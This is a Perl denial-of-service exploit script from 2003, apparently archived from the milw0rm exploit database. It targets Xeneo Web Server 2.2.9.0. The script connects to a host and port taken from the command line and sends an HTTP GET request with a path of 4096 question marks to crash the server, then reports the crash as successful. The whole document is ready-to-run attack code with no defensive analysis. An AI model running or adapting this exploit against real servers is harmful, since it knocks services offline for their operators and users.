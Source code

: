EXP
---

    #!/usr/bin/perl
    # Xeneo Web Server DoS
    #
    # Vulnerable systems:
    # Xeneo. Web Server 2.2.9.0
    #
    # Written by badpack3t <badpack3t@security-protocols.com>
    # For SP Research Labs
    # 04/21/2003
    #
    # www.security-protocols.com
    #
    # usage:
    # perl sp-xeneo.pl <target> <port>
    #


    use IO::Socket;
    use strict;

    print ".:."x 20; print "\nXeneo Web Server 2.2.9.0 DoS, <badpack3t\@security-protocols.com>\n";
    print ".:."x 20; print "\n\n";

    if( !defined( $ARGV[ 0 ] && $ARGV[ 1 ]))
    {
    &usage;
    }

    my $host = $ARGV[ 0 ];
    my $def = "?";
    my $num = "4096";
    my $port = $ARGV[ 1 ];
    my $urfuqed = $def x $num;

    my $tcpval = getprotobyname( 'tcp' );
    my $serverIP = inet_aton( $host );
    my $serverAddr = sockaddr_in( $ARGV[ 1 ], $serverIP );
    my $protocol_name = "tcp";

    my $iaddr = inet_aton( $host ) || die ( "host was not found: $host" );
    my $paddr = sockaddr_in( $port, $iaddr ) || die ( "you did something wrong stupid... exiting..." );
    my $proto = getprotobyname( 'tcp' ) || die ( "cannot get protocol" );
    socket( SOCK, PF_INET, SOCK_STREAM, $proto ) || die ( "socket could not open: $host" );
    connect( SOCK, $paddr ) || die ( "cannot connect to: $host" );

    my $submit = "GET /$urfuqed HTTP/1.0\r\n\r\n";
    send( SOCK,$submit,0 );
    close( SOCK );

    sub usage
    {
    die( "\n\nUsage: perl $0 <target_host> <port>\n\n" );
    }

    print "\n.:.:.:.:.:.:.:.:.:.:.:.";
    print "\ncrash was successful ~!\n";
    print "\.:.:.:.:.:.:.:.:.:.:.:.\n";

    # milw0rm.com [2003-04-22]
